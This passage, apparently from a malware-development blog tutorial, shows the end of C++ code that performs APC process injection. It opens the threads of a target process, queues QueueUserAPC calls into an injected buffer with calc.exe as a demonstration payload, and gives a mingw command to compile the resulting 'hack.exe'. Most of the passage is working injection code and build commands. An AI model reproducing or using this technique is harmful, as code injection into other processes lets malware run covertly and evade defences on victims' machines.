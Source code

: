 ```cpp

    if (getTids(pid, tids)) {
      for (DWORD tid : tids) {
        HANDLE ht = OpenThread(THREAD_SET_CONTEXT, FALSE, tid);
        if (ht) {
          QueueUserAPC((PAPCFUNC)rb, ht, NULL);
          printf("payload injected via QueueUserAPC\n");
          CloseHandle(ht);
        }
      }
    }
    CloseHandle(ph);
  }
  return 0;
}

```

As usually, for simplicity, we use 64-bit `calc.exe` as the payload and print message for demonstration.    

Let's go to compile our code:   
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![APC injection 7](/assets/images/23/2021-11-22_16-31.png){:class="img-responsive"}    
